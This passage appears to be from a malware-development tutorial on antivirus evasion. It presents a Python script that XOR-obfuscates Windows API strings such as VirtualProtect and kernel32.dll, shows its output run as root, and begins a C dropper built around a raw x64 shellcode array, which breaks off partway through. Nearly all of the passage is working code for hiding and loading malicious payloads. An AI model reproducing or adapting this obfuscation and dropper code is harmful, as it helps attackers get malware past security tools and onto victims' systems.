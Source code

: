 {% code title="xor.py" %}
```python
import sys

try:
        plaintext = str(sys.argv[1])
        KEY = str(sys.argv[2])
except:
        print("\nXOR the given string with given key")
        print("\nusage : %s [string] [key]\n" % sys.argv[0])
        sys.exit(1)

def xor(data, key):
        l = len(key)
        output_str = ""
        for i in range(len(data)):
                current = data[i]
                current_key = key[i%len(key)]
                output_str += chr(ord(current) ^ ord(current_key))
        return output_str

def printC(ciphertext):
        print('{ 0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext) + ' };')

ciphertext = xor(plaintext, KEY)
printC(ciphertext)


```
{% endcode %}

```bash
╭─root@w4lk3r ~ 
╰─# python xor.py kernel32.dll RHRHSDHSFR 
{ 0x39, 0x2d, 0x20, 0x26, 0x36, 0x28, 0x7b, 0x61, 0x68, 0x36, 0x3e, 0x24 };
╭─root@w4lk3r ~ 
╰─# python xor.py VirtualProtect RHRHSDHSFR
{ 0x4, 0x21, 0x20, 0x3c, 0x26, 0x25, 0x24, 0x3, 0x34, 0x3d, 0x26, 0x2d, 0x31, 0x3c };
```

this will print the XORed string in C style shellcode format. we implement a XOR decryption stub in the C dropper and replace the strings:

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

const unsigned char shellcode[] = {
0xFC,0x48,0x83,0xE4,0xF0,0xE8,0xC0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xD2,0x65,0x48,0x8B
,0x52,0x60,0x48,0x8B,0x52,0x18,0x48,0x8B,0x52,0x20,0x48,0x8B,0x72,0x50,0x48,0x0F,0xB7,0x4A,0x4A,0x4D,0x31,0xC9,0x48,
0x31,0xC0,0xAC,0x3C,0x61,0x7C,0x02,0x2C,0x20,0x41,0xC1,0xC9,0x0D,0x41,0x01,0xC1,0xE2,0xED,0x52,0x41,0x51,0x48,0x8B,
0x52,0x20,0x8B,0x42,0x3C,0x48,0x01,0xD0,0x8B,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xC0,0x74,0x67,0x48,0x01,0xD0,0x50,
0x8B,0x48,0x18,0x44,0x8B,0x40,0x20,0x49,0x01,0xD0,0xE3,0x56,0x48,0xFF,0xC9,0x41,0x8B,0x34,0x88,0x48,0x01,0xD6,0x4D,
0x31,0xC9,0x48,0x31,0xC0,0xAC,0x41,0xC1,0xC9,0x0D,0x41,0x01,0xC1,0x38,0xE0,0x75,0xF1,0x4C,0x03,0x4C,0x24,0x08,0x45,
0x39,0xD1,0x75,0xD8,0x58,0x44,0x8B,0x40,0x24,0x49,0x01,0xD0,0x66,0x41,0x8B,0x0C,0x48,0x44,0x8B,0x40,0x1C,0x49,0x01,
0xD0,0x41,0x8B,0x04,0x88,0x48,0x01,0xD0,0x41,0x58,0x41,0x58,0x5E,0x59,0x5A,0x41,0x58,0x41,0x59,0x41,0x5A,0x48,0x83,
```